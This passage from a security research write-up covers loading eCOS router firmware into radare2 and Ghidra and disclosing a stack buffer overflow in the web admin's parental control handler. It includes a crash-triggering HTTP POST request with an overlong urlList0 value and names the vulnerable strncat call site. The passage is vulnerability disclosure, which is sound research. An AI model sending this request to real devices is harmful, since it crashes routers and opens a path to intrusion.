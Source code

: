 #### Loading Firmware with Reverse Engineering Tools

**Loading the firmware in Radare2** You can load the firmware in radare2 with the command below:

```
r2 -a mips -b 32 -m 0x80004000 -e 'cfg.bigendian=true' image1
```

**Loading the firmware in Ghidra** When loading in Ghidra, you need to set the architecture to MIPS 32bit
big endian, and then set the right loading address.

{:.foo}
![Selecting MIPS 32 bit big endian]({{site.url}}/assets/image1_ghidra_load.png)

{:.foo}
![Setting load address to 0x80004000]({{site.url}}/assets/image1_ghidra_load_addr.png)

Advanced details on reverse engineering process such as function
auto-identification, automated function renaming, memory mappings, or
interrupt handling falls out of scope of this article and are therefore
not covered. Again, if you want to know more, head over to [ecos.wtf](https://ecos.wtf).

### Findings

The following sections document security vulnerabilities we have
identified when reverse engineering the firmware code. **Please note
that this is in no way an exhaustive list of vulnerabilities that may
lie within the firmware.**

#### Stack Buffer Overflows

We identified a stack buffer overflow in the parental control section of
the web administration interface. It affects a form handler that expects
a list of URLs that should be blocked by parental controls.

It's possible to trigger a stack overflow by sending an HTTP request
such as the one displayed below. Sending the request will trigger a crash, with a detailed crash log provided by eCOS over serial.

``` 
POST /goform/AskParentalControl HTTP/1.1
Host: 192.168.0.1
Accept-Encoding: gzip, deflate
Accept: */*
Connection: close
Content-Length: 132
Content-Type: application/x-www-form-urlencoded

urlList0=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

The vulnerability is triggered at offset 0x803f4d44 when a call to
strncat is made with user controlled input and user controlled length.
